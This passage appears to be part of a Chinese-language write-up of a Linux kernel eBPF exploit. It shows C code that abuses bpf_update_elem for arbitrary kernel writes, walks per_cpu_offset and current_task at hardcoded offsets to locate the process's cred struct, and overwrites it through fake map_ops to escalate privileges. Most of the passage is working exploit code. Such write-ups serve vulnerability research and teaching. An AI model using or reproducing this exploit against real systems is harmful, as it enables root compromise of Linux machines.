 ```c 
static int bpf_update_elem(uint64_t key, void *value, int mapfd, uint64_t flags) {
    union bpf_attr attr = {
        .map_fd = mapfd,
        .key = (__u64)&key,
        .value = (__u64)value,
        .flags = flags,
    };
    return syscall(__NR_bpf, BPF_MAP_UPDATE_ELEM, &attr, sizeof(attr));
}
```

`bpf_update_elem(0, exp_buf, exp_mapfd, addr)` 就可以实现 `*(u32 *)addr = exp_buf[0] + 1` 的任意地址写。

### 利用结果

利用任意地址读，我们可以读取到内核中的 `per_cpu_offset`，然后根据其偏移 0x17d00 得到 `current_task` 地址，再偏移 0x648 得到其中 `comm` 字段，即当前进程执行的命令，我们令其为 `0x353338385f707865` 即 `exp_8835`，我们后续也需要将 exp 编译后的可执行文件命名为此名称。查询到当前进程的 task 结构体后，就可以根据其偏移 0x638 得到 `cred` 结构体，即当前进程的权限信息：

```c 
uint64_t task_struct, cred, current_task, comm;
uint64_t per_cpu_offset = arbitrary_read(0xffffffff822c26c0);
printf("[+] per_cpu_offset:\t\t0x%lx\n", per_cpu_offset);
for (int i = 0; ; i++) {
    current_task = arbitrary_read(per_cpu_offset + 0x17d00);
    comm = arbitrary_read(current_task + 0x648);
    if (comm == 0x353338385f707865) {
        printf("[+] current_task:\t\t0x%lx\n", current_task);
        task_struct = current_task;
        break;
    }
    hextostr(comm);
}
hextostr(comm);

cred = arbitrary_read(task_struct + 0x638);
printf("[+] cred:\t0x%lx\n", cred);
```

接下来我们要利用任意地址写来覆盖 cred 结构体，先创建一个写满了 map_get_next_key 函数指针的数组，然后将其覆盖到 map_ops 中，再将 map 类型改为 stack 类型，这样就可以通过调用 map_push_elem 来调用 map_get_next_key，从而实现任意地址写：

```c
uint64_t fake_map_ops[] = {
    kernel_base + 0x16cfa0,
    ...
    kernel_base + 0x16cfa0,
};
memcpy(exp_buf, fake_map_ops, sizeof(fake_map_ops));
execute_with_op(2);
exp_buf[0] = 0x0-1;
for (int i = 0; i < 8; i++) {
    bpf_update_elem(0, exp_buf, exp_mapfd, cred + 4 + i * 4);
}
```
